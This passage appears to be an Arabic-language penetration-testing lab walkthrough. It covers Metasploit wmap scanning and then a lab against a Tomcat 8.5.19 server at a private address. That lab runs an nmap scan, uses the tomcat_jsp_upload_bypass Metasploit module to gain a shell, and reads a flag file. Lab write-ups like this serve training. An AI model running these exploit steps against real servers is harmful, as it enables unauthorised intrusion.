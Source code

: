 الان راح يبدا يفحص لك الموقع ويعطيك الموديول الي ممكن تشغلهم على الموقع  

نشوف انه عطانا اول شي معلومات عن التارقت بعدين قعد يجرب الموديولز الي عنده وماحصل شي مهم يعني او يفيدنا فجرب اغلب الموديولز ولا وحده طلعت نتيجة مفيده  

فيه امر ثاني الي هو -e طبعا راح يشغل كل الموديولز الي قبل كلهم ونشوف النتيجة كامله  
[wmap_run -e]  


فاختصار المراحل الي قبل  
[wmap_run -t]  
يعرض لنا الموديولز الي ممكن يشغلهم  

[wmap_run -e]  
يشغل كل الموديولز السابق ويعطينا النتيجة  

ونشوف الان النتيجة كبيره طبعا من مسارات واصدارات وهنا خلص اللاب الثاني  


---

راح نبداء باللاب الثالث الي هو  

Windows: Java Web Server 
-------------------------|  

طيب في هذا اللاب يتكلم عن الـ Java webserver
غالبا يكون السيرفر اما 
Tomcat or spring  
طبعا تسمى framework  


طبعا في هذا اللاب معطينا التارقت ايبي من نفسه والي هو  
Target = 10.0.0.141  


نسوي الان nmap scan  
[nmap -sV -sC 10.0.0.141]  

نشوف انه عطانا انه شغال بورت 80 Apache Tomcat 8.5.19  

طبعا له CVE بنفتح الـ msfconsole  
[msfcnosole]  
[use exploit/multi/http/tomcat_jsp_upload_bypass]  
[set RHOSTS 10.0.0.141]  
[check] راح يتاكد هنا من انه مصاب او لا  
[exploit] or [run]  

نشوف انه عطانا انه مصاب وعطانا Shell  

الان نحصل الفلاق فيه هذا المسار 
[type C:\\flag.txt]  

وطبعنا الفلاق والان انتهى اللاب هذا  

---

راح نبداء باللاب الرابع الي هو  

Vulnerable File Sharing Service 
--------------------------------|  
